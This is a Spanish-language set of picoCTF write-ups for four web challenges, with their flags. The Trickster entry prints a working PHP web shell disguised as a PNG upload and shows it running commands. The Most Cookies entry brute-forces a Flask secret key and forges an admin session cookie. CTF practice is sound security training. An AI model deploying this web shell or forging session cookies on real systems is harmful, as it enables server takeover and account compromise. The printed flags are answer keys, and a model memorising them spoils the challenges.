 #  01 atchTheRegex
# DESC
How about trying to match a regular expression

Additional details will be available after launching your challenge instance.

# SOLUCION

````` python
unsamos el codigo fuente de la pagina e ingresamos picoCTF{

picoCTF{succ3ssfully_matchtheregex_8ad436ed}
````` 


#  02 SOAP
# DESC

The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Additional details will be available after launching your challenge instance.
# SOLUCION
abrimos el burpsuite y la pagina del pico despues le picos a interceptar paquetes y cambiamos el payload y mandamos la respuesta 
````` python
	picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
````` 




#  03 Trickster
# DESC

I found a web app that can help process images: PNG images only!Try it [here](http://atlas.picoctf.net:62666/)!
# SOLUCION

````` python
```
nano webshell.php
```

```html
PNG //Para engañar a la aplicación
<?php
if(isset($_GET['cmd'])){
	echo "<pre>";
	system($_GET['cmd']);
	echo "</pre>";
}
?>
```

```
mv webshell.php webshell.png.php
```

Comprobamos que los magic bites sí coincidan con los de los archivos png

```
xxd webshell.png.php
```

```
00000000: 504e 470a 3c3f 7068 700a 6966 2869 7373  PNG.<?php.if(iss
00000010: 6574 2824 5f47 4554 5b27 636d 6427 5d29  et($_GET['cmd'])
00000020: 297b 0a09 6563 686f 2022 3c70 7265 3e22  ){..echo "<pre>"
00000030: 3b0a 0973 7973 7465 6d28 245f 4745 545b  ;..system($_GET[
00000040: 2763 6d64 275d 293b 0a09 6563 686f 2022  'cmd']);..echo "
00000050: 3c2f 7072 653e 223b 0a7d 0a3f 3e0a       </pre>";.}.?>.
```

5. Subimos el archivo a la aplicación
6. Vamos a la carpeta de uploads y buscamos el archivo. El archivo recibe comandos cmd y los ejecuta

```
/uploads/webshell.png.php?cmd=ls

output: 
webshell.png.php
```

```
/uploads/webshell.png.php?cmd=ls ..

output: 
HFQWKODGMIYTO.txt
index.php
instructions.txt
robots.txt
uploads
```

```
/uploads/webshell.png.php?cmd=cat ../HFQWKODGMIYTO.txt

/* picoCTF{c3rt!fi3d_Xp3rt_tr1ckst3r_9ae8fb17} */
```
````` 




#  04  Most Cookies

# SOLUCION

````` python
1. Ingresamos a la página
2. Accedemos con la sugerencia de ingreso y revisamos las cookies
3. Revisamos la cookie de session

```
eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-8FlQ.uE7bFv977aR24b8cziZuaRWguyg
```

4. Decodificamos la cookie

```
echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-8FlQ.uE7bFv977aR24b8cziZuaRWguyg | base64 -d

output: {"very_auth":"snickerdoodle"}base64: entrada inválida
```

5. Revisamos el código que nos proporcionaron al inicio del reto

```
wget "https://mercury.picoctf.net/static/c135543530f7dc24c3a6ecaeb44a81b8/server.py"

cat server.py
```

6. En el código encontramos las palabras con las se puede ingresar, las copiamos y las guardamos en un diccionario para hacer un ataque de fuerza bruta

```
pluma server.py
```

```python
cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

app.secret_key = random.choice(cookie_names)
```

```
cookies.txt

snickerdoodle 
chocolate chip 
oatmeal raisin 
gingersnap 
shortbread 
peanut butter 
whoopie pie 
sugar 
molasses 
kiss 
biscotti 
butter 
spritz 
snowball 
drop 
thumbprint 
pinwheel 
wafer 
macaroon 
fortune 
crinkle 
icebox 
gingerbread 
tassie 
lebkuchen 
macaron 
black and white 
white chocolate macadamia
```

7. Hacemos el ataque de fuerza bruta

```
flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.Z-9FJQ.ghYwXIIlabTut47IUr03DhReHB0" --wordlist cookies.txt
```

```
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'fortune'
```

8. Creamos la nueva cookie y la usamos para sustituir la anterior en el navegador

```
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'fortune'
```

```
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-9IHQ.xGV1Y_ykIGoEzub7P-1A5GDQyaA
```

```
curl -s http://mercury.picoctf.net:65344 -H 'Cookie: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.Z-9IHQ.xGV1Y_ykIGoEzub7P-1A5GDQyaA' ! grep -oE "picoCTF{.*?}"
```

9. Obtenemos la bandera

```
picoCTF{pwn_4ll_th3_cook1E5_25bdb6f6}
```
````` 




